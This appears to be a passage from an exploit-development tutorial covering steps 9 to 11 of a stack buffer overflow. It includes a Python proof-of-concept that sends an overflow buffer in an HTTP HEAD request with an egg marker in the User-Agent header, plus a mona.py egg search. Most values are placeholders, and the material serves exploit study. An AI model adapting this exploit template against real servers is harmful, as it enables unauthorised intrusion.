 **Stack Fitting**
```bash
offset = "A" * yyy
eip = jmpesp-address
esp = \xEB\x??
buffer = offset + eip + esp
```

### 9 - Shellcode Space
it is time to discover a new point to fit a shellcode, for example, we can put in User-Agent on the header

```python
#!/usr/bin/python

import socket
import os
import sys

host = "x.x.x.x"
port = 8080

shellcode = "T00WT00W"
shellcode += "C" * 400

offset = "A" * yyy
eip = jmpesp-address
esp = \xEB\x??
buffer = offset + eip + esp

header = (
"HEAD /" + buffer + " HTTP/1.1\r\n"
"Host: x.x.x.x:8080\r\n"
"User-Agent: " + shellcode + "\r\n"
"Keep-Alive: 115\r\n"
"Connection: keep-alive\r\n\r\n")

expl = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
expl.connect((host,port))
print "Injection %s bytes" % len(buffer)
expl.send(header)
expl.close()
```

### 10 - Looking For shellcode
After run POC.py, analize in the immunity the stack and do mona.py looking for shellcode

```bash
!mona find -s T00WT00W
```

### 11 - Build Egghunter
it is very simple to build a egghunter code by mona
